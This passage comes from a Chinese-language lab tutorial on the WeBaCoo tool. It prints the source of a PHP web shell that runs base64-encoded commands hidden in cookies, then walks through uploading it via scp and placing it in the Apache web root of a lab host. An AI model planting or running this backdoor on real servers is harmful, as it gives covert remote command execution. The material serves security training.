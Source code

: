 ```
# 函数 isset() 用于检测变量是否设置，这里的作用是 Cookie 是否设置
if(isset($_COOKIE['cm'])){

    # 启动
    ob_start();
    
    # 使用 base64_decode 对 shell 命令进行解码
    system(base64_decode($_COOKIE['cm']).' 2>&1');
    
    # 设置 cookie 参数，并使用 base64_encode 进行编码
    setcookie($_COOKIE['cn'],$_COOKIE['cp'].base64_encode(ob_get_contents()).$_COOKIE['cp']);
    
    # 关闭
    ob_end_clean();
}
```


### 4.3 上传到目标靶机

通过上面的木马源码分析，我们了解到 WeBaCoo 创建 PHP 木马文件之后，对木马文件使用 Base64 加密，并使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码，隐藏在 Cookie 头中。一般情况下，在生成木马文件后，会将木马程序上传到目标主机，进而感染目标主机，建立会话通道。输入如下命令，将木马上传：

```
# 将木马文件，复制上传到目标主机
scp hello.php shiyanlou@192.168.122.1:/tmp
```
**注意： 连接实验楼宿主主机的账号为 `shiyanlou`，对应的密码是 `shiyanlou`:**

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993526850.png-wm)

实验楼 Ubuntu 环境下，默认开启的是 `nginx` 服务。在上传木马文件后，输入命令关掉 `nginx` 服务，开启 `apache2` 服务，用以测试 PHP 木马：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993507282.png-wm)

```
# 关掉 nginx 服务程序
sudo service nginx stop

# 开启 apache2 服务程序
sudo service apache2 start
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993732499.png-wm)

将木马文件，复制到网站的根目录下，这里注意，要加 `sudo` 权限：

```
# 将木马文件，复制到目标主机的网站目录下
sudo cp /tmp/hello.php /var/www/html/
```
### 4.4 感染目标主机并创建会话

在将木马程序上传至目标主机后，在 Kali Linux 的终端中，输入如下命令创建会话通道：
